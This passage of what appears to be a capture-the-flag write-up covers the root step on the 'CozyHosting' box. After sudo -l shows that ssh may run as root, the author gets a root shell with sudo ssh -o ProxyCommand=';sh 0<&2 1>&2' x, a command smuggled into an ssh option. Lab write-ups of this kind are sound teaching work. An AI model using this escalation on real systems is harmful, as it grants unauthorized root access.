 ## Getting root

Once connected as josh, getting root was easy. I checked if I could run anything with sudo.

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

I could run `ssh` as root. I checked [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo) and saw that I could `ProxyCommand` the option to execute another command. The exploit simply launched `sh`.

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root

# cat /root/root.txt
REDACTED
```